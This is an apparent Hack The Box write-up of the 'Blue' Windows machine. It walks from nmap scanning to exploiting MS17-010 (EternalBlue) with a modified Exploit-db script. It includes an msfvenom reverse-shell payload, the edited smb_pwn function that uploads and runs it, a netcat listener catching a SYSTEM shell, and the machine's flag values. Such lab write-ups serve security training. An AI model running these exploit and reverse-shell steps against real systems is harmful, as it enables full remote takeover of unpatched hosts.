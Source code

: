```yaml
---
permalink: /posts/HTB/Blue
title:  "HTB Blue"
author: Luc Kolen
description: "Blue is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB
  - SMB
  - MS17-010
---
```

# 10.10.10.40 - Blue

- [10.10.10.40 - Blue](#10101040---blue)
  - [Open ports](#open-ports)
  - [SMB Vulnerability](#smb-vulnerability)
    - [Changing the exploit script](#changing-the-exploit-script)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.40
```

|Port|Service|
|---|---|
tcp/135|msrpc
tcp/139|netbios-ssn
tcp/445|microsoft-ds
tcp/49152|msrpc
tcp/49153|msrpc
tcp/49154|msrpc
tcp/49155|msrpc
tcp/49156|msrpc
tcp/49157|msrpc

## SMB Vulnerability

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ sudo nmap --script=*smb-vuln* -p139,445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-10 15:59 CEST
Nmap scan report for 10.10.10.40
Host is up (0.013s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

This machine is vulnerable to `MS17-010` (also known as `EternalBlue`).

### Changing the exploit script

[Exploit-db 42315](https://www.exploit-db.com/exploits/42315) is a Python script that will exploit MS17-010. We do need to make some changes to it.

This script needs an username and password that can connect to SMB.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ smbmap -u guest -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

Guest access is allowed so we can use those credentials.

```python
USERNAME = 'guest'
PASSWORD = ''
```

We'll need a payload to be executed, for this we'll use `MSFvenom` to generate a Windows executable.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.16 LPORT=443 > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The default payload that will be executed is defined in the `smb_pwn` function.

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
```

We'll update this payload to make it upload our executable and run it.

```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        smb_send_file(smbConn, r'/home/luc/Documents/Cyber-security/HTB/Blue/shell.exe', 'C', '/shell.exe')
        service_exec(conn, r'cmd /c c://shell.exe')
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ python 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a008379048
InParam: 0xfffff8a0027d315c
MID: 0xd02
unexpected alignment, diff: 0x5ba5048
leak failed... try again
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a0027e5088
InParam: 0xfffff8a0027df15c
MID: 0xd07
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service LgbE.....
Starting service LgbE.....
The NETBIOS connection with the remote host timed out.
Removing service LgbE.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.40.
Ncat: Connection from 10.10.10.40:49164.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>cd ../../Users/Administrator/Desktop
C:\Users\Administrator\Desktop>type root.txt
ff548eb71e920ff6c08843ce9df4e717
C:\Users\Administrator\Desktop>cd ../../haris/Desktop
C:\Users\haris\Desktop>type user.txt
4c546aea7dbee75cbd71de245c8deea9
```

